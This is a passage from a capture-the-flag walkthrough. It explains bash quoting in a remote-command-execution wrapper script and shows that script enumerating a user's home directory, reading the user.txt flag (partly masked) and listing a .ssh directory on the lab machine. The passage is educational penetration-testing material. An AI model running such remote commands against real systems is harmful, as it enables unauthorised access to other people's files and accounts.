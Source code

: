 There’s two tricks in there. First, in order to get `$1` to expand to the passed in argument, I’ll need to close the single quote string, put it in double quotes, and then start the single quote string again (`bash` is a headache like that).

I’m also using `jq` with `-r` to print the raw string, which removes the `""` around the result and the trailing `\n`. `jq` is made for JSON, but technically a string is valid JSON, so it works. It doesn’t help fix the fact that the server seems to strip out new lines in the middle of results, so that’s still a mess.

The script runs as hoped:

```

oxdf@hacky$ ./rce.sh 'id'
uid=1001(paul) gid=1001(paul) groups=1001(paul)

```

I’ll find `user.txt` in paul’s home dir:

```

oxdf@hacky$ ./rce.sh 'ls /home/paul'
snap user.txt

```

The multiline result is a mess:

```

oxdf@hacky$ ./rce.sh 'ls -l /home/paul'
total 8 drwxr-xr-x 3 paul paul 4096 Feb 17 18:30 snap -r--r----- 1 root paul 33 Jun 19 21:13 user.txt

```

Anyway, I can read the flag:

```

oxdf@hacky$ ./rce.sh 'cat /home/paul/user.txt'
db87a6d1************************

```

#### .ssh

paul’s homedir does have a `.ssh` directory:

```

oxdf@hacky$ ./rce.sh 'ls -a /home/paul'
. .. .bash_history .bash_logout .bashrc .cache .gnupg .local .pm2 .profile snap .ssh user.txt

```

It’s empty:
